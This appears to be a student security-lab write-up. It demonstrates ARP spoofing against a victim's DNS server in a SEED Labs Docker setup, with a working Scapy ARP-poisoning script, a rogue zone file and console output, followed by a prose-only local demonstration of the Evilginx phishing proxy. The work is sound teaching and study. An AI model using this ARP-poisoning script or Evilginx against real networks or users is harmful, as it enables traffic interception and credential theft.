



# AITM ATTACK - ARP SPOOFING ON DNS

## SETUP

Starting from the setup taken from the _DNS_local_ laboratory from SEEDLABS the configuration files were slightly modified to replicate the scenario in the proposal.

### Attacker NS

The attacker name server was modified to include the zone configuration file `db.alerenda.github.io`:
```dns
$TTL 60
@	IN	SOA	ns.attacker32.com. admin.attacker32.com (
		2026011401
		1H
		15M
		1W
		60	)

@	IN	NS ns.attacker32.com.
@	IN	A 10.9.0.2
```

This redirects requests to the matching zone to the attacker NS.  
The `Dockerfile` was updated to include this new file in the attacker NS container.

The following was added in `named.conf`

```
zone "alerenda.github.io" {
       type master;
       file "/etc/bind/db.alerenda.github.io";
};
```

which registers the zone `alerenda.github.io` in the attacker NS so that it can act as the owner of the zone.

The following script was added to spoof the ARP cache of the victim to trick it into thinking that it's talking with its NS when instead is talking with the attacker NS
```python
from scapy.all import *
import time

MAC_M = '02:42:0a:09:00:99'   # attacker MAC
MAC_A = '02:42:0a:09:00:05'   # victim MAC
IP_A  = '10.9.0.5'            # victim IP
IP_B  = '10.9.0.53'           # DNS server IP

E = Ether(src=MAC_M, dst=MAC_A)
A = ARP(
    op=2,                  # ARP reply
    psrc=IP_B,              # pretend to be DNS
    hwsrc=MAC_M,            # attacker MAC
    pdst=IP_A,              # victim IP
    hwdst=MAC_A             # victim MAC
)

pkt = E / A

while True:
    sendp(pkt, iface="eth0", verbose=False)
    time.sleep(5)
```
the script will be called `spoofing.py`.

### Attacker

The attacker container was modified to have IP `10.9.0.2` on the local network and use `10.9.0.11` as router:
```diff
-        network_mode: host
+        networks:
+            net-10.9.0.0:
+                ipv4_address: 10.9.0.2
```

The attacker was assigned a simple HTML file to serve when the victim connects to it:
```HTML
<!DOCTYPE html>
<html lang="en">
	<head></head>
	<body>
		<h1>ARP SPOOFED</h1>
	</body>
</html>
```

###  Local NS

The `named.conf.options` in the local NS was updated to include a forwarding option using Google DNS:
```diff
-       // forwarders {
-       //      0.0.0.0;
-       // };
+       forwarders {
+               8.8.8.8;
+       };
```

## INITIAL SETTING

As initial setting, on the user machine a request for `alerenda.github.io` was performed with the following result:
```console
root@43ac8970545f:/# dig +short alerenda.github.io
185.199.108.153
185.199.111.153
185.199.110.153
185.199.109.153
root@43ac8970545f:/# curl -I alerenda.github.io
HTTP/1.1 301 Moved Permanently
Connection: keep-alive
Content-Length: 162
Server: GitHub.com
Content-Type: text/html
Location: https://alerenda.github.io/
X-GitHub-Request-Id: F376:234C6B:BA899A:BE0E9A:6968BC7E
Accept-Ranges: bytes
Age: 0
Date: Thu, 15 Jan 2026 10:07:59 GMT
Via: 1.1 varnish
X-Served-By: cache-lin1730056-LIN
X-Cache: MISS
X-Cache-Hits: 0
X-Timer: S1768471680.657004,VS0,VE105
Vary: Accept-Encoding
X-Fastly-Request-ID: 4dd5be461c3a885c3fb7a2a842e3782af8d81e2f
```
This shows that forwarding on the local NS works and that the name resolution succeeds as intended.  
The ARP cache is content is as follows:
```console
root@43ac8970545f:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.11                ether   02:42:0a:09:00:0b   C                     eth0
10.9.0.53                ether   02:42:0a:09:00:53   C                     eth0
```
since no spoofing attack has been carried yet.

## DNS QUERY WITH SPOOFED NS

At this point, the attacker NS is told to treat `10.9.0.53` as its own IP:
```shell
ip addr add 10.9.0.53/32 dev eth0
```
In this way it treats requests for `10.9.0.53` as if they were intended for it.  
It also starts `spoofing.py` to convince the victim to connect to it instead of the local NS.

Now the user repeats the DNS query:
```console
root@43ac8970545f:/# dig +short alerenda.github.io
10.9.0.2
```
This shows that now the attacker NS is being used to resolve hostnames, as intedned.

### ATTACKER HTTP SERVER

On the attacker machine the python module `http.server` is started on port 80 to serve files to hosts that connect to it.

The victim makes a request for `alerenda.github.io` using `curl`:
```console
root@43ac8970545f:/# curl alerenda.github.io
<!DOCTYPE html>
<html lang="en">
	<head></head>
	<body>
		<h1>ARP SPOOFED</h1>
	</body>
</html>
```
which shows that the user has been successfully spoofed on a malicious HTTP server while searching `alerenda.github.io`.

# REAL ATTACK TOOLS

## Evilginx

In this final section, the phishing framework **Evilginx** was examined.
The objective of the activity was to **observe the behavior of an adversary-in-the-middle (AitM) phishing tool in a controlled, local environment**, without exposing any real users or external services. The following paragraphs describe the setup and the observed behavior during limited demonstration tests.

---

## Obtaining Evilginx

Evilginx can be obtained either by cloning the official repository and compiling the source code or by downloading a precompiled release package.

After installation, the following components are available:

* the `evilginx` binary
* the `phishlets/` directory, where phishlet definition files are stored
* the `redirectors/` directory

Phishlets are YAML configuration files that describe how Evilginx should proxy and interact with a specific target service.

---

## Setup

Evilginx operates as an **adversary-in-the-middle (AitM) proxy**.
In a typical real-world scenario, it is deployed on a publicly reachable server with:

* a public IP address
* one or more registered domain names

Victims are lured into navigating to a malicious hostname controlled by the attacker. Evilginx then proxies traffic between the victim and the legitimate service, relaying content while intercepting authentication data. To the victim, the page appears identical to the legitimate website, even though it is served through a malicious proxy.

### Local development environment

For this experiment, Evilginx was executed **locally in development mode**. This mode allows the tool to:

* generate self-signed TLS certificates
* operate without a public domain or public IP address

The local machine is explicitly configured to trust the Evilginx-generated certificate authority, enabling HTTPS connections without browser warnings. This configuration is intended **only for testing and demonstration purposes**.

Because no public DNS is used, hostnames corresponding to the phishing domains must be resolved locally. This is achieved by modifying the local hosts file so that test domains resolve to `127.0.0.1`. For example:

```
127.0.0.1 example.com academy.example.com login.example.com
```

In a real deployment, this step would not be required, as DNS records would be managed externally. However, this approach allows testing without registering domains or deploying virtual machines in the cloud.

---

## Attack Demonstration

To simulate an attack scenario, phishlets were loaded into Evilginx.
Each phishlet defines:

* the target domains and subdomains
* how requests should be proxied
* where credentials or session tokens may be captured
* optional scripts or content manipulation logic

Testing was performed using:

* a default phishlet provided with Evilginx
* an additional phishlet targeting Yahoo

Evilginx was then launched in developer mode. Since this was a local environment, the server domain and IP address were set to placeholder values (`example.com` and `127.0.0.1`). Warnings related to missing public configuration were expected and did not affect the demonstration.



Phishlet hostnames were then associated with the local test domain so that Evilginx could correctly handle incoming requests. Once configured, the phishlets were enabled.

---

## Lures and User Interaction

Lures are URLs designed to direct victims to the malicious domain. When accessed, these URLs display a web page that is visually identical to the legitimate service but served through the proxy.

From a user perspective:

* the website layout and content appear legitimate
* the URL contains a malicious (or typosquatted) domain
* authentication data entered by the user is relayed through Evilginx

Carefully crafted domain names can therefore deceive users into believing they are interacting with the genuine website.



---

## Observed Results

During the demonstration, Evilginx was able to proxy authentication flows and attempt credential capture. Depending on the phishlet configuration and the target service’s security mechanisms, results varied.

* For some test services (e.g., `breakdev.org`), credential capture was successful.
* For others (e.g., `yahoo.com`), the attack was unsuccessful due to additional protections implemented by the service.


When successful, captured credentials were displayed within the Evilginx interface.



---

## Summary

This experiment demonstrates how AitM phishing tools such as Evilginx rely on:

* precise hostname control
* trusted TLS certificates
* user interaction with malicious links

It also highlights the **limitations of such tools** when confronted with modern defensive mechanisms, including stricter authentication flows and protections against session hijacking. The local setup allowed safe observation of these behaviors without exposing real users or infrastructure.
